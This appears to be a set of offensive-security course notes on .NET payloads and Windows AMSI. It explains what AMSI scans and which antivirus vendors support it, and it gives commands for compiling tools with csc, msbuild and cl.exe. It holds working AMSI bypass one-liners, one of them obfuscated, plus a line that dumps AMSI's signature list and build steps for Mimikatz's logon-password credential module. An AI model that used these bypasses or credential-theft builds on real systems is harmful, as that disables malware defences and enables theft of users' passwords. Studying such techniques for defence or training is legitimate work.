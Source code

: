 # Chapter 1.2 - Shellcode

    What is Shellcode
    **What is AMSI/Dotnet (managed/unmanaged code)**
        The .NET Framework provides the Assembly.Load method which allows loading Common Object 
        File Format (COFF) images like such as DLL’s and EXE’s. Assembly.Load can be supplied 
        with a file path to load a DLL from disk, or with a byte array to load directly in memory.

    Threatcheck/AMSI Trigger
    ClamAV
        dotpeek/hexdump --canonical
        strings -n 5

On Windows:

***csc.exe (CSharp/dotnet)***
---
```code
c:\windows\Microsoft.NET\Framework\v3.5\bin\csc.exe /t:exe /out:loader.exe loader.cs
csc.exe /t:exe /out:$utilName /unsafe $katzPath
```




***msbuild.exe (CSharp, C++)***
---
```code
msbuild buildapp.csproj -t:HelloWorld
msbuild mimidogz.sln /t:Build /p:Configuration=Release /p:Platform=x64
```

```code
@echo off
set msBuildExe="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe"
set solutionsFile="C:\TestProject\mySln.sln"
rem Build the solutions:  
%msBuildExe% /t:Build /p:Configuration=Release /p:Platform=x64 %solutionsFile%
```

***CL.exe (C)***
---
```code
Developer Prompt Visual Studio
cl.exe hello.c /out:hello.exe /exe

git clone https://github.com/gentilkiwi/mimikatz.git

cl.exe /Zi /I inc\ mimikatz\modules\misc\kuhl_m_misc_citrix.c modules\kull_m_kernel.c 
modules\kull_m_memory.c modules\kull_m_minidump.c modules\kull_m_output.c 
modules\kull_m_process.c modules\kull_m_string.c lib\x64\ntdll.min.lib 
/link kernel32.lib user32.lib advapi32.lib shell32.lib crypt32.lib rpcrt4.lib vcruntime.lib ucrt.lib 
/entry:kuhl_m_misc_citrix_logonpasswords 
/subsystem:console
```

# Chapter 3.4 - .net Payloads 


Languages
---
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)


![dotnet](./images/dotnet.jpeg)

AMSI
---

Introduced in June 2015.

The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.  

AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.

The AMSI feature is integrated into these components of `Windows 10`:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell `v5` (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic 
- Office365 (JavaScript/VBA)  
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - ***NEW***

> **Runtime – Antimalware Scanning for All Assemblies** : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.

[https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)

.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.

In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:

- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher

[https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)

>Runtime – Antimalware Scanning for All Assemblies
>In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
>
>.NET Framework 4.8 (released April 18th on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
>
>**LINK** : [https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)
>
>**LINK** : [https://en.wikipedia.org/wiki/.NET_Framework_version_history](https://en.wikipedia.org/wiki/.NET_Framework_version_history)

![image](./images/amsi7archi.jpg)

Supported OS
---
- Windows 10 PRO/ENTERPRISE and Windows Server 2016
- Windows Server 2019

Supported 3rd party Antivirus/EDR vendors
---
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0 
- Sophos
- Symantec (v14.3 and later)

**LINK** : [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)


To check which version of .net and the CLR is installed open a powershell prompt and type the following:

```code
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version
```

![image](./images/dotnetversion.jpg)

Check Powershell installed on the system:

```yaml
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion
```

AMSITEST
---

```yaml
It '"Antimalware Scan Interface" is working' {
    # AMSI test string 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
    # (in the following as an obfuscated string)
    # must throw an error if executed (blocked by AMSI)
    $TestString = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
    $Bytes = [Convert]::FromBase64String($TestString)
    $String = -join ($bytes | ForEach-Object { [char]($_ -bxor 0x33)})
    { Invoke-Expression -Command $String } | Should Throw
}
```

AMSIBYPASS
---

Works on 1803 and before

> This bypass does not require administrator rights!!!

```yaml
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Works on 1903, 1909 and before

```yaml
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

List `dirty` words: 

```yaml
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
```